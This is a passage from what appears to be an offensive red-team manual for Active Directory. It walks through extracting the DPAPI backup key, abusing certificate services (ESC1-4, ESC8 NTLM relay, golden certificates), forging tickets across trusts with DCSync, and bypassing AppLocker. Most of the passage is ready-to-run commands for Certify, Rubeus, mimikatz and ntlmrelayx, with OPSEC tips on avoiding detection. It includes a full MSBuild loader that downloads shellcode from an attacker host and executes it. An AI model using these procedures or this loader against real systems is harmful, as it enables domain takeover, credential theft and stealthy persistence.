DPAPI encrypts user secrets (Credential Manager, browser passwords) with a masterkey derived from the user's password. A backup copy of each masterkey is encrypted with a domain-wide backup key stored in Active Directory. This backup key is generated once during domain creation and is never automatically changed. There is no officially supported rotation mechanism.
Extracting the backup key allows decryption of all DPAPI-protected blobs for every user in the domain, regardless of password changes.
Methodology
- Extract the domain DPAPI backup key (requires domain admin):
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey - With local admin on a target host, triage credentials for all users (will fail without masterkey cache):
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials - Decrypt credentials using the domain backup key via
/pvk:execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /pvk:HvG1s[...snip...]lXQns=
OPSEC
- The
/rpcmethod only works when the current user owns the masterkey — for cross-user decryption, the domain backup key (/pvk) is required. - Backup key extraction uses the BackupKey Remote Protocol (MS-BKRP) — monitor RPC calls to the domain controller on the associated named pipe.
- No rotation mechanism exists — if the backup key is compromised, all historical and future DPAPI secrets remain at risk until AD is rebuilt.
16.7 Ticket Forgery Comparison
Each ticket forgery technique has different requirements, scope, and detection profiles. Use this table to select the right approach for the operational scenario.
| Technique | Secret Required | Scope | Lifetime | Detection Difficulty |
|---|---|---|---|---|
| Silver Ticket | Computer/service account hash | Single service on single host | ~30 days (computer password rotation) | Missing 4769 event, PAC validation failure |
| Golden Ticket | krbtgt AES256 hash | Any user, any service, any host | Until krbtgt password is rotated twice | Missing 4768 event, anomalous ticket lifetime |
| Diamond Ticket | krbtgt AES256 hash | Any user, any service, any host | Until krbtgt password is rotated twice | PAC field anomalies (e.g., FullName mismatch) |
| Forged Certificate | CA private key | Any user, any service, any host | CA key validity (5-10+ years) | Certificate revocation monitoring, PKI audit logs |
17. Active Directory Certificate Services
Active Directory Certificate Services (ADCS) is a Windows server role for issuing and managing PKI certificates used for encryption, digital signatures, and authentication. Misconfigurations in ADCS can provide privilege escalation and persistence paths that survive password rotations and are often overlooked by defenders.
17.1 ADCS Overview
ADCS integrates with AD DS to issue X.509 certificates that bind a public key to a domain principal (user or computer). User authentication via certificates is the primary attack surface covered here, based largely on the 2021 Certified Pre-Owned research.
| Certificate Field | Description |
|---|---|
| Issuer | Distinguished name of the issuing CA |
| Serial Number | Unique identifier per certificate per CA |
| Validity | Time window during which the certificate is valid |
| Subject | Distinguished name of the certificate holder |
| Subject Alternative Name (SAN) | Alternate names for the subject (UPN, DNS, email) |
| Extended Key Usage (EKU) | OIDs defining permitted certificate purposes |
| Basic Constraints | Whether the cert is issued to a CA, user, computer, or service |
| CRL Distribution Points | URLs where the certificate revocation list is published |
17.1.1 Common EKU OIDs
| EKU | OID |
|---|---|
| Client Authentication | 1.3.6.1.5.5.7.3.2 |
| Server Authentication | 1.3.6.1.5.5.7.3.1 |
| Secure Email | 1.3.6.1.5.5.7.3.4 |
| Encrypting File System | 1.3.6.1.4.1.311.10.3.4 |
| Any Purpose | 2.5.29.37.0 |
Certificates with overly permissive EKUs (such as Any Purpose or a blank EKU field) are significantly easier to abuse. Certificates used for privilege escalation must include an EKU that enables client authentication.
17.2 Certificate Templates
Certificate templates are pre-built rule sets that define what fields, EKUs, and permissions apply to incoming certificate requests. Administrators duplicate and customize them for specific use cases. Several template settings are particularly relevant to attackers.
| Setting | Significance |
|---|---|
| ENROLLEE_SUPPLIES_SUBJECT | Requestor provides the Subject/SAN — can impersonate any principal |
| Manager Approval Required | If false, certificates issue immediately without review |
| Authorized Signatures Required | If zero, no co-signing needed for the request |
| Extended Key Usage | Determines what the certificate can be used for |
| Enrollment Permissions (DACL) | Controls which principals can enroll for the template |
Templates where Domain Users can enroll, manager approval is disabled, and the subject is supplied by the requestor are prime escalation targets.
17.3 Enumeration
Certify is the primary tool for discovering CAs, templates, and associated vulnerabilities. Enumeration should target both the CA configuration and the enabled templates.
Methodology
- Enumerate certificate authorities in the domain:
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe enum-cas --quiet - Find vulnerable enabled templates (filtering out admin-only templates):
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe enum-templates --filter-enabled --filter-vulnerable --hide-admins --quiet
The enum-cas output reveals the CA name, DNS hostname, certificate chain (useful for identifying subordinate CAs), enrollment permissions, enabled templates, and any CA-level vulnerabilities such as ESC7 or ESC8.
17.4 ESC1 — Enrollee Supplies Subject
ESC1 applies when a template allows the requestor to supply the certificate subject (ENROLLEE_SUPPLIES_SUBJECT flag), has a client authentication EKU, requires no approval, and grants enrollment rights to low-privileged principals. The attacker requests a certificate with an arbitrary SAN, such as a Domain Admin UPN.
| Prerequisite | Required Value |
|---|---|
ENROLLEE_SUPPLIES_SUBJECT | Enabled |
| Manager Approval | False |
| Authorized Signatures | 0 |
| EKU | Client Authentication (or PKINIT, Smart Card Logon, Any Purpose, Sub CA, blank) |
| Enrollment Rights | Domain Users or other low-priv group |
Methodology
- Request a certificate with a target user's UPN as the SAN:
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request --ca "[sccm-server]\[CA-NAME]" --template ESC1 --upn Administrator --quiet - Use the issued PFX certificate to request a TGT via PKINIT:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[user] /domain:[DOMAIN] /certificate:MIACAQMwg... /enctype:aes256 /nowrap
OPSEC
- Certificate requests generate Event ID 4887 on the CA — the SAN field in the event reveals the impersonated identity.
- Always use
/enctype:aes256with Rubeus to avoid requesting RC4 tickets, which stand out in logs.
17.5 ESC2 — Any Purpose / No EKU
ESC2 applies when a template has the Any Purpose EKU (2.5.29.37.0) or a blank EKU field. The resulting certificate can be used for any purpose without restriction. If ENROLLEE_SUPPLIES_SUBJECT is also set, the attack mirrors ESC1. Otherwise, it can be chained with ESC3.
Methodology
- Identify ESC2-vulnerable templates (Any Purpose or blank EKU):
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe enum-templates --filter-enabled --filter-vulnerable --hide-admins --quiet - If
ENROLLEE_SUPPLIES_SUBJECTis set, exploit as ESC1. Otherwise, chain with the ESC3 enrollment agent technique.
17.6 ESC3 — Certificate Request Agent
ESC3 applies when a template has the Certificate Request Agent EKU. Certificates from this template can co-sign enrollment requests on behalf of other users. Exploitation is a two-step process: first obtain an enrollment agent certificate, then use it to request a second certificate (from a template like User with Client Authentication EKU) on behalf of a target principal.
Methodology
- Request a Certificate Request Agent certificate:
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request --ca "[sccm-server]\[CA-NAME]" --template ESC3 --quiet - Use the agent certificate to request a User certificate on behalf of a target:
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request-agent --ca "[sccm-server]\[CA-NAME]" --template User --target [user] --agent-pfx MIACAQ...AAAAA= --quiet - Use the resulting PFX with Rubeus
asktgtto obtain a TGT for the target user.
17.7 ESC4 — Template ACL Abuse
ESC4 applies when low-privileged principals hold write permissions on a certificate template, allowing them to modify it into a vulnerable state. The template can then be exploited via ESC1 or ESC3 techniques.
| Permission | Effect |
|---|---|
Owner | Implicit full control — can edit any template property |
FullControl | Explicit full control — can edit any template property |
WriteProperty | Generic write — can edit any template property |
WriteOwner | Can change the template owner |
WriteDacl | Can modify the template access controls |
Methodology
- Enable the
ENROLLEE_SUPPLIES_SUBJECTflag on the vulnerable template:execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe manage-template --template ESC4 --supply-subject --quiet - Verify the flag is set:
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe enum-templates --template ESC4 --quiet - Exploit the modified template via the ESC1 technique (request with
--upn). - Revert the template changes after exploitation to reduce forensic footprint.
17.7.1 Additional manage-template Flags
| Flag | Effect |
|---|---|
--enroll <SID> | Grant enrollment rights to a principal |
--manager-approval | Toggle manager approval on/off |
--authorized-signatures 0 | Set required co-signatures to zero |
--client-auth | Toggle Client Authentication EKU |
--pkinit-auth | Toggle PKINIT Client Authentication EKU |
--smartcard-logon | Toggle Smart Card Logon EKU |
--supply-subject | Toggle ENROLLEE_SUPPLIES_SUBJECT flag |
OPSEC
- Template modifications generate directory change events — revert changes immediately after obtaining the certificate.
- Modifying a production template can break legitimate enrollment workflows.
17.8 ESC8 — NTLM Relay to HTTP Enrollment
CAs with HTTP-based web enrollment (http://<ca>/certsrv/) that lack HTTPS with channel binding are vulnerable to NTLM relay. An attacker coerces authentication from a high-value target (typically a domain controller), relays the NTLM handshake to the CA web endpoint, and obtains a certificate for the victim principal.
The relay cannot target the same machine that originated the authentication. The setup requires unbinding port 445 on a compromised host, tunneling traffic through a reverse port forward, and running ntlmrelayx on the attacker machine via a SOCKS proxy.
Methodology
- Confirm ESC8 vulnerability on the CA:
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe enum-cas --filter-vulnerable --hide-admins --quiet - Verify port 445 is bound (PID 4 = system):
netstat - Disable
lanmanserverauto-start and stop the SMB driver stack:sc_config lanmanserver "C:\Windows\system32\svchost.exe -k netsvcs -p" 1 4 sc_stop lanmanserver sc_stop srv2 sc_stop srvnet - Start a reverse port forward on 445 to the attacker's ntlmrelayx port:
rportfwd_local 445 localhost 7445 - Start a SOCKS proxy for ntlmrelayx outbound traffic:
socks 1080 socks5 - Run ntlmrelayx targeting the CA web enrollment endpoint:
proxychains impacket-ntlmrelayx -t http://[ip]/certsrv/certfnsh.asp -smb2support --adcs --template DomainController - Coerce authentication from the target (e.g., domain controller) to the compromised host:
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe [team-server-ip] [ip] - Use the relayed DC certificate with Rubeus
asktgt, then perform S4U2self for a usable service ticket.
OPSEC
- Unbinding port 445 breaks all SMB services (file shares, SMB Beacons) on the compromised host — avoid doing this on critical servers.
- Re-enable
lanmanserverand restart the service stack after the attack to restore normal operations. - If the host is a workstation, a firewall rule allowing inbound 445 may be required.
- The coerced authentication and relay generate events on both the target machine and the CA.
17.9 Certificate Persistence
Certificates provide long-lived persistence because they remain valid until expiration or explicit revocation — password changes do not invalidate them. Default User certificates are valid for one year. This technique does not require a vulnerable template.
17.9.1 User Persistence
Issued user certificates reside in the user's Personal Certificate Store. They can be enumerated with Seatbelt and exported with Mimikatz. Alternatively, request a fresh certificate from any template with Client Authentication EKU.
- Enumerate certificates in the current user's store:
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates - Export user certificates with Mimikatz:
mimikatz crypto::certificates /export - Base64-encode the exported PFX and request a TGT:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[user] /enctype:aes256 /certificate:MIINeg...IH0A== /password:mimikatz /nowrap - Or request a new user certificate directly:
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request --ca "[dc]\sub-ca" --template User --quiet
17.9.2 Computer Persistence
Computer certificates are stored in the Local Machine certificate store and require elevated privileges to extract. When requesting a new machine certificate with Certify, the --machine flag auto-elevates to SYSTEM.
- Export machine certificates (requires elevation):
mimikatz !crypto::certificates /systemstore:local_machine /export - Request a TGT for the computer account using the exported certificate:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIINCA...IH0A== /password:mimikatz /nowrap - Or request a new machine certificate directly:
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request --ca "[dc]\sub-ca" --template Machine --machine --quiet
OPSEC
- Certificate enrollment generates Event ID 4887 on the CA and Event ID 4886 for certificate issuance.
- Mimikatz
crypto::certificates /exportwrites PFX files to disk — download and delete them promptly. - Use
/enctype:aes256with Rubeus to avoid default RC4 ticket requests.
17.10 DPERSIST1 — Golden Certificates
If an attacker compromises a CA server, they can extract the CA's private key used to sign all issued certificates. With this key, certificates can be forged offline for any domain principal — analogous to forging golden tickets with the krbtgt hash. Forged certificates remain valid until their expiration date unless manually revoked.
This technique assumes the CA is a Tier 0 asset (same privilege tier as domain controllers). Compromising it typically requires Domain Admin or equivalent access.
Methodology
- From a Beacon on the CA server, dump the CA certificate and private key:
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe manage-self --dump-certs --quiet - Save the base64 PFX to disk on the attacker machine:
[IO.File]::WriteAllBytes("C:\Users\[user]\Desktop\[ca-cert].pfx", [Convert]::FromBase64String("MIACAQ...AAAAA=")) - Forge a golden certificate for a target user:
C:\Tools\Certify\Certify\bin\Release\Certify.exe forge --ca-cert .\Desktop\[ca-cert].pfx --quiet --upn Administrator --subject CN=Administrator,CN=Users,DC=[domain-component],DC=[tld] --sid [domain-SID] --crl "ldap:///CN=[CA-NAME],CN=[sccm-server],CN=CDP,CN=Public Key Services,CN=Services,CN=Configuration,DC=[DOMAIN-COMPONENT],DC=[TLD]" - Use the forged PFX with Rubeus to obtain a TGT:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[user] /domain:[DOMAIN] /certificate:MIACAQMwg... /enctype:aes256 /nowrap
OPSEC
- The stolen CA key provides indefinite persistence — forged certificates are indistinguishable from legitimately issued ones unless the serial number is cross-referenced against CA logs.
- The CA private key is the single most sensitive cryptographic asset in the PKI — protect exfiltrated copies accordingly.
- Longer validity periods on forged certificates extend the persistence window but also increase the risk of detection through certificate audits.
18. Forest & Domain Trusts
18.1 Trust Fundamentals
Active Directory environments frequently contain trust relationships between forests and domains, allowing resource sharing across administrative boundaries. Understanding trust types, directions, and transitivity is essential for identifying lateral movement paths between domains.
| Trust Type | Direction | Transitivity | Created When |
|---|---|---|---|
| Parent-Child | Two-way | Transitive | New domain added to existing tree |
| Tree-Root | Two-way | Transitive | New domain tree added to existing forest |
| External | One or two-way | Non-transitive | Manually created between domains in different forests |
| Forest | One or two-way | Transitive | Manually created between different forests |
Transitivity determines whether a trust extends beyond the two parties involved. If Domain A trusts Domain B and Domain B trusts Domain C, a transitive trust means Domain A implicitly trusts Domain C. Direction controls the flow of access: a one-way trust from A to B allows users in A to access resources in B but not the reverse. Two-way trusts are implemented as two one-way trusts in opposite directions.
The direction of a trust is opposite to the direction of access. An inbound trust means principals from the foreign domain can access your resources. An outbound trust means your principals can access the foreign domain's resources. The official security boundary in Active Directory exists only at the forest level, not the domain level.
18.1.1 Trusted Domain Objects
Each trust is stored as a Trusted Domain Object (TDO) in Active Directory. TDOs contain the trust type, transitivity, direction, and the shared inter-realm key. The PDC in the trusting domain rotates the TDO password every 30 days.
Methodology
- Enumerate TDOs via LDAP:
beacon> ldapsearch (objectClass=trustedDomain)
| TDO Attribute | Description |
|---|---|
name | FQDN of the trusted/trusting domain |
flatName | NetBIOS name of the domain |
trustDirection | 0 = disabled, 1 = inbound, 2 = outbound, 3 = bidirectional |
trustAttributes | Bitwise flags defining trust properties (see below) |
| trustAttributes Value | Flag | Meaning |
|---|---|---|
1 | TRUST_ATTRIBUTE_NON_TRANSITIVE | Trust is non-transitive |
4 | TRUST_ATTRIBUTE_QUARANTINED_DOMAIN | SID filtering enabled |
8 | TRUST_ATTRIBUTE_FOREST_TRANSITIVE | Transitive forest trust |
32 | TRUST_ATTRIBUTE_WITHIN_FOREST | Both domains in the same forest |
64 | TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL | Cross-forest external trust; SID filtering implied |
18.2 Inter-Realm Tickets
When a client requests a service ticket for a service in a foreign realm, its own KDC cannot issue that ticket directly because it lacks the foreign service's secret. Instead, the KDC issues an inter-realm TGT encrypted with a shared inter-realm key. The client then presents this inter-realm TGT to the foreign KDC, which decrypts it and returns the requested service ticket.
All parent-child trusts within a forest share the same inter-realm key, which is how trust transitivity is implemented. Non-transitive trusts each get a unique inter-realm key. Microsoft refers to the inter-realm TGT as a "TGS referral."
18.2.1 Trust Accounts
When a trust is created, the trusting realm's ticket-granting service is registered as a principal in the trusted realm's KDC, using the flat name of the opposing realm (e.g., PARTNER$). The inter-realm key serves as the password for this account. The trusted domain fetches the shared key from this account, while the trusting domain stores it inside the TDO.
Methodology
- Enumerate trust accounts by querying for
SAM_TRUST_ACCOUNT:beacon> ldapsearch (samAccountType=805306370) --attributes samAccountName
18.3 Parent-Child Trusts
Adding a child domain to a forest automatically creates a two-way transitive trust with its parent. Because these trusts are transitive, an implicit trust chain exists from any child domain up to the forest root. An adversary with domain admin privileges in any child domain can escalate to enterprise admin in the forest root.
The attack works by forging a golden or diamond ticket with SID History containing the SID of a privileged group (e.g., Enterprise Admins) in the parent domain. SID History was designed for migration scenarios, but it can be abused to inject arbitrary group memberships into a Kerberos ticket.
Methodology
- Confirm the parent-child trust (
trustDirection: 3,trustAttributes: 32):beacon> ldapsearch (objectClass=trustedDomain) - Obtain the parent domain SID:
beacon> ldapsearch (objectClass=domain) --attributes objectSid --hostname [dc] --dn DC=[domain-component],DC=[tld] - Forge a golden ticket with SID History (offline, requires child krbtgt hash):
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<child-krbtgt-aes256> /user:[user] /domain:child.[domain] /sid:<child-domain-SID> /sids:<parent-EA-group-SID>-519 /nowrap - Or forge a diamond ticket (online, modifies a legitimate TGT):
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:<parent-EA-group-SID>-519 /krbkey:<child-krbtgt-aes256> /nowrap - Inject the ticket and access the forest root DC:
beacon> ls \\[dc]\c$
| Rubeus Parameter | Description |
|---|---|
/aes256 | AES256 hash of the child domain's krbtgt |
/user | Username to impersonate |
/domain | FQDN of the child domain |
/sid | SID of the child domain |
/sids | SID(s) to inject into SID History (e.g., Enterprise Admins SID) |
/tgtdeleg | Obtains a usable TGT for the current user (diamond only) |
/krbkey | AES256 hash of the child krbtgt (diamond only) |
/ticketuser | User to impersonate (diamond only) |
/ticketuserid | RID of the impersonated user (diamond only) |
OPSEC
- Golden tickets with SID History generate event 4769 with an encryption type that may not match the domain's policy — diamond tickets are harder to detect because they modify a legitimately issued TGT.
- SID History injection is flagged by rules watching for well-known SIDs (e.g.,
S-1-5-21-*-519) appearing in non-EA accounts — consider using less conspicuous group SIDs where possible.
18.4 Inbound Trusts
An inbound trust means the foreign domain trusts your domain. Principals in your domain can access resources in the foreign domain by design. The strategy is to identify which local principals have been granted access to the foreign domain and impersonate them. SID History attacks do not work across external/forest trusts because SID filtering strips non-native SIDs.
Methodology
- Confirm the inbound trust (
trustDirection: 1):beacon> ldapsearch (objectClass=trustedDomain) - Enumerate Foreign Security Principals in the trusting domain:
beacon> ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname [trusted-domain] --dn DC=partner,DC=com - Ignore default well-known SIDs (
S-1-5-4,S-1-5-9,S-1-5-11,S-1-5-17). Resolve any remaining SIDs in the local domain:beacon> ldapsearch (objectSid=S-1-5-21-<domain-SID>-<RID>) - Enumerate the group's members to find impersonation targets:
powershell Get-DomainGroupMember -Identity "Partner Jump Users" | select MemberName - Enumerate machines in the foreign domain for further target scoping:
beacon> ldapsearch (samAccountType=805306369) --attributes samAccountName --dn DC=partner,DC=com --hostname [trusted-domain] - Obtain the inter-realm key by DCSync of the trust account:
beacon> dcsync [domain] [DOMAIN]\[TRUST-ACCOUNT]$ - Forge an inter-realm TGT using Rubeus
silver(trusts default to RC4):C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:[user] /domain:[DOMAIN] /sid:<trusted-domain-SID> /id:<user-RID> /groups:513,<group-RIDs> /service:krbtgt/[trusted-domain] /rc4:<inter-realm-NTLM> /nowrap - Request a service ticket in the foreign domain using the inter-realm TGT:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.[trusted-domain] /dc:par-dc-1.[trusted-domain] /ticket:<inter-realm-TGT-base64> /nowrap - Verify access to the foreign domain:
beacon> ls \\par-jmp-1.[trusted-domain]\c$
Rubeus silver Parameter | Description |
|---|---|
/user | Username to impersonate |
/domain | FQDN of the trusted domain (your domain) |
/sid | SID of the trusted domain |
/id | RID of the impersonated user |
/groups | RIDs of the user's domain groups (must be accurate) |
/service | krbtgt/<trusting-domain> |
/rc4 | NTLM hash of the inter-realm key |
OPSEC
- Trusts use RC4 encryption by default, so an RC4 inter-realm ticket is normal behavior and does not stand out.
- When forging tickets offline, ensure the user's group memberships are correct — incorrect RIDs will cause authentication failures or raise suspicion. Use Rubeus
/ldapparameter for online forging to auto-populate groups.
18.5 Outbound Trusts
An outbound trust means your domain trusts the foreign domain. You are against the direction of access and cannot access the foreign domain by design. LDAP queries to the foreign domain fail with error 49 (invalid credentials) because the KDC returns KDC_ERR_S_PRINCIPAL_UNKNOWN with no referral attempted.
However, the trust account provides a foothold. The trusting domain stores a copy of the inter-realm key in its TDO. By extracting this key and requesting a TGT as the trust account in the trusted domain, you gain Domain Users-equivalent access. The trust account's primaryGroupID is 513 (Domain Users), granting baseline enumeration privileges without explicit group membership.
Methodology
- Confirm the outbound trust (
trustDirection: 2):beacon> ldapsearch (objectClass=trustedDomain) - Get the TDO's
objectGUID:beacon> ldapsearch (objectClass=trustedDomain) --attributes name,objectGUID - DCSync the TDO using its GUID to extract the inter-realm key:
beacon> mimikatz lsadump::dcsync /domain:[trusted-domain] /guid:{<TDO-objectGUID>} - Request a TGT as the trust account in the trusted domain:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:PARTNER$ /domain:[DOMAIN] /dc:[dc] /rc4:<inter-realm-NTLM> /nowrap - Inject the TGT and enumerate the trusted domain:
beacon> ldapsearch (objectClass=domain) --dn DC=[domain-component],DC=[tld] --attributes name,objectSid --hostname [domain] - Hunt for privilege escalation paths: kerberoastable accounts, ASREProastable users, ADCS misconfigurations, RBCD opportunities:
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /domain:[domain] /dc:[dc] /nowrap
| DCSync Output Field | Meaning |
|---|---|
[Out] | Current inter-realm key |
[Out-1] | Previous inter-realm key (same as current if trust is less than 30 days old) |
rc4_hmac_nt | NTLM hash to use with Rubeus asktgt |
aes256_hmac | AES256 hash (available but RC4 is default for trusts) |
18.5.1 Alternate Key Extraction
The inter-realm key can also be dumped directly from DC memory using lsadump::trust /patch, but this performs memory patching on the domain controller, which is extremely risky. DCSync via the TDO's GUID is the safer approach.
OPSEC
- DCSync of the TDO generates replication traffic (event 4662) from a non-DC source — this is detectable but far less damaging than patching LSASS on a domain controller.
- The trust account TGT grants only Domain Users access — further escalation depends on finding vulnerabilities (Kerberoast, ADCS, RBCD) in the foreign domain.
- If credentials for a user in the trusted domain are obtained through other means,
make_tokenwith their credentials bypasses the need for trust account abuse entirely.
19. AppLocker
AppLocker is a Windows application control technology that prevents users from running unapproved executables, scripts, installers, and packaged apps. Policies are defined by administrators and deployed via GPO or Intune, each containing enforcement rules with a permission (allow/deny), a target user or group, and a condition (publisher, path, or file hash).
19.1 Policy Overview
AppLocker rules are grouped into four collections, each covering a set of file extensions. Windows ships default rules that are broad enough to allow anything in %PROGRAMFILES% and %WINDIR% for all users, plus a blanket allow for local administrators.
| Rule Collection | Extensions | Default Allow Paths |
|---|---|---|
| Executable | .exe, .com | %PROGRAMFILES%\*, %WINDIR%\*, * (Admins) |
| Installer | .msi, .msp, .mst | Any publisher, %WINDIR%\Installer\*, *.* (Admins) |
| Script | .ps1, .bat, .cmd, .vbs, .js | %PROGRAMFILES%\*, %WINDIR%\*, * (Admins) |
| Packaged App | .appx | Any publisher (signed) |
DLL rules exist but are rarely enforced due to performance overhead. When DLL enforcement is disabled, arbitrary DLLs can be loaded freely via rundll32 or COM objects.
19.2 Enumeration
Enumerating the active policy is a prerequisite for finding bypasses. Rules can be read from two locations: the local registry of a protected machine, or remotely from the GPO in SYSVOL.
Methodology
- Query local registry for applied rule collections:
Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2" - Drill into a specific collection (e.g. Exe) to read individual rules as XML:
Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe" - Parse the effective policy in a readable format using the native cmdlet:
$policy = Get-AppLockerPolicy -Effective $policy.RuleCollections - Enumerate remotely by locating the AppLocker GPO and downloading
Registry.pol:ldapsearch (objectClass=groupPolicyContainer) --attributes displayName,gPCFileSysPath- Download the policy file from the GPO path:
download \\[domain]\SysVol\[domain]\Policies\{GPO-GUID}\Machine\Registry.pol - Parse the downloaded
.polfile offline:Parse-PolFile -Path .\Registry.pol
- Download the policy file from the GPO path:
- Check whether DLL enforcement is enabled (look for a
Dllsubkey withEnforcementMode):Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Dll" - Confirm PowerShell language mode on the target:
$ExecutionContext.SessionState.LanguageMode
OPSEC
- Registry reads via
Get-ChildItemare permitted under Constrained Language Mode and generate minimal telemetry. - Remote GPO enumeration uses LDAP and SMB reads against SYSVOL — standard domain traffic that blends with normal operations.
19.3 Writable Path Bypass
The default rules allow execution from anywhere under %WINDIR%\*. Several subdirectories within C:\Windows are writable by standard users, making them natural bypass locations for dropping and executing payloads.
| Writable Path | Notes |
|---|---|
C:\Windows\Tasks | Common drop location; writable by Users |
C:\Windows\Temp | Writable by Users; frequently monitored |
C:\Windows\tracing | Less monitored than Temp |
C:\Windows\System32\spool\PRINTERS | Writable by Users |
C:\Windows\System32\spool\SERVERS | Writable by Users |
C:\Windows\System32\spool\drivers\color | Writable by Users |
Custom rules with overly permissive wildcards are another common weakness. A rule like *\App-V\* allows execution from any directory named App-V regardless of its parent path — an attacker can create that folder anywhere writable.
Methodology
- Enumerate writable directories under
C:\Windows:Get-Acl C:\Windows\Tasks | fl - Check with
icaclsfor alternative ACL enumeration:icacls C:\Windows\Tasks - Copy a payload into a writable allowed path and execute:
copy payload.exe C:\Windows\Tasks\payload.exe C:\Windows\Tasks\payload.exe - For lateral movement via
psexec, the service binary lands inC:\Windowsby default — AppLocker allows it:jump psexec64 target.[domain] smb
OPSEC
- Dropping files to disk creates forensic artifacts — prefer in-memory execution where possible.
C:\Windows\Tempis a high-visibility location for EDR file-write monitoring; less common paths likespool\drivers\colordraw less attention.
19.4 LOLBAS Bypass
Living Off The Land Binaries, Scripts, and Libraries (LOLBAS) are Microsoft-signed executables that ship with Windows and reside in trusted paths. Because they satisfy default AppLocker path and publisher rules, they can execute arbitrary code without triggering policy violations.
Methodology
- Create a
.csprojfile containing inline C# for MSBuild execution:<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003"> <Target Name="MSBuild"> <MSBuildTest/> </Target> <UsingTask TaskName="MSBuildTest" TaskFactory="CodeTaskFactory" AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"> <Task> <Code Type="Class" Language="cs"> <![CDATA[ using System; using Microsoft.Build.Framework; using Microsoft.Build.Utilities; public class MSBuildTest : Task, ITask { public override bool Execute() { Console.WriteLine("Hello World"); return true; } } ]]> </Code> </Task> </UsingTask> </Project> - Execute the project file via MSBuild:
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe project.csproj - Adapt the inline C# to a shellcode loader (download and inject shellcode from a remote host):
byte[] shellcode; using (var client = new WebClient()) { client.BaseAddress = "http://attacker.com"; shellcode = client.DownloadData("beacon.bin"); } var hMemory = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40); Marshal.Copy(shellcode, 0, hMemory, shellcode.Length); CreateThread(IntPtr.Zero, 0, hMemory, IntPtr.Zero, 0, IntPtr.Zero);
19.4.1 Complete MSBuild Shellcode Loader
- Full
.csprojthat downloads and injects shellcode via MSBuild:<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003"> <Target Name="MSBuild"> <MSBuildTest/> </Target> <UsingTask TaskName="MSBuildTest" TaskFactory="CodeTaskFactory" AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"> <Task> <Reference Include="System.Net" /> <Code Type="Class" Language="cs"> <![CDATA[ using System; using System.Net; using System.Runtime.InteropServices; using Microsoft.Build.Framework; using Microsoft.Build.Utilities; public class MSBuildTest : Task, ITask { [DllImport("kernel32.dll")] static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); [DllImport("kernel32.dll")] static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); [DllImport("kernel32.dll")] static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds); public override bool Execute() { byte[] shellcode; using (var client = new WebClient()) { client.BaseAddress = "http://[attacker-ip]"; shellcode = client.DownloadData("beacon.bin"); } var hMemory = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40); Marshal.Copy(shellcode, 0, hMemory, shellcode.Length); var hThread = CreateThread(IntPtr.Zero, 0, hMemory, IntPtr.Zero, 0, IntPtr.Zero); WaitForSingleObject(hThread, 0xFFFFFFFF); return true; } } ]]> </Code> </Task> </UsingTask> </Project>
OPSEC
- MSBuild execution from a non-developer workstation is anomalous — EDR and SIEM rules commonly flag it.
- The LOLBAS project catalogs hundreds of binaries; check
lolbas-project.github.iofor alternatives when MSBuild is blocked.
19.5 DLL Execution
DLL enforcement is rarely enabled because Microsoft warns of performance degradation. When disabled, rundll32 can load and call exported functions from any DLL on disk, bypassing all other rule collections.
Methodology
- Confirm DLL rules are not enforced (no
